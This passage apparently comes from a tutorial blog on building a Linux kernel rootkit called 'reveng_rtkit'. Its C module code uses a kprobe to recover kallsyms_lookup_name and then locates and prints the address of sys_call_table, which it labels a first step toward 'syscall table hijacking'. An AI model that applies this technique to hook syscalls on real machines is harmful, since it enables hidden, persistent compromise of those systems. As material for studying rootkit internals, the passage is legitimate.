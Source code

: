 ```c
    *       // location of the probe point
    *       kprobe_opcode_t *addr;
    *
    *       // Allow user to indicate symbol name of the probe point
    *       const char *symbol_name;
            *
            * 	      ...
            * 	};
            */
	
	kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;


	// Storing of address of original `kallsyms_lookup_name` is done. No need of kprobes from now.
	unregister_kprobe(&kp);

	// Storing the address of the syscall table
	syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");

	if (!syscall_table)
		return -1;

	printk(KERN_INFO "[+] reveng_rtkit: Address of kallsyms_lookup_name in kernel memory: 0x%px \n", kallsyms_lookup_name);
	printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", syscall_table);

	return 0;
}

// ========================== Exit Function ====================

static void __exit rootkit_exit(void)
{
	printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
	printk(KERN_INFO "=================================================\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);


MODULE_LICENSE("GPL");
MODULE_AUTHOR("reveng007");
MODULE_DESCRIPTION("Demo syscall table hijaking");
MODULE_VERSION("1.0");
```
#### Output:
![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog12.png?raw=true)
Now, we can export both `kallsyms_lookup_name` as well as `sys_call_table`! 😉. 
